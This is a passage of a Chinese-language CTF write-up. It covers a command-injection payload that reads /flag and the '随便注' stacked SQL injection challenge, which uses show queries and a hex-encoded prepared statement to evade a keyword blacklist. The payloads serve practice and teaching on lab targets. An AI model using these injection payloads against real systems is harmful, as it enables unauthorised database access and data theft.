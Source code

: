 接下来输出一下这个文件的内容就看到flag了

```
127.0.0.1&cat  /flag
```

<br>

***

<br>

# [强网杯 2019]随便注

```
select * from `1919810931114514`
73656c656374202a2066726f6d20603139313938313039333131313435313460

1';Set@payload=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execpayload from @payload;execute execpayload;#
```

首先测试

```
1' or '1'='1
```

成功输出

接下来使用`union`来尝试获得数据库的一些信息:

```
1' and '1'='2' union select version(),database() #
```

发现存在关键词过滤:

<img src="/images/buuctf-web/image-20221013154743257.png" alt="image-20221013154743257" style="zoom:67%;" />

那么尝试使用不在黑名单里的`show`来爆库名,表名和列名:

```
1';show databases;#
1';show tables;#
1'; show columns from words;#
1'; show columns from `1919810931114514`;#
```

